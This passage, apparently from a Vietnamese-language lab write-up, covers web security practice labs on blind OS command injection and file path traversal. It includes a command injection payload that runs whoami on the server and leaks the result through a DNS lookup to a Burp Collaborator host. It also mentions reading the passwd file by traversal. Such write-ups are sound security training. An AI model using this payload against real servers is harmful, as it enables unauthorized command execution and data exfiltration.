 
### **Blind OS command injection with out-of-band data exfiltration**

Gửi payload `;ping+$(whoami).u7264uvynus51w3p0ib32fbgr7x2lr.burpcollaborator.net+;` để server thực hiện DNS lookup

![Untitled](writeup_media/Untitled%206.png)

Trong Burp Collaborator client nhận được request với tên user → thành công

# Directory traversal

### **File path traversal, simple case**

Theo như mô tả, ta có thể thực thi path traversal ở mục hiện ảnh của sản phẩm

Gửi payload là vị trí đến file `passwd`

![Untitled](writeup_media/Untitled%207.png)

---

### **File path traversal, traversal sequences blocked with absolute path bypass**
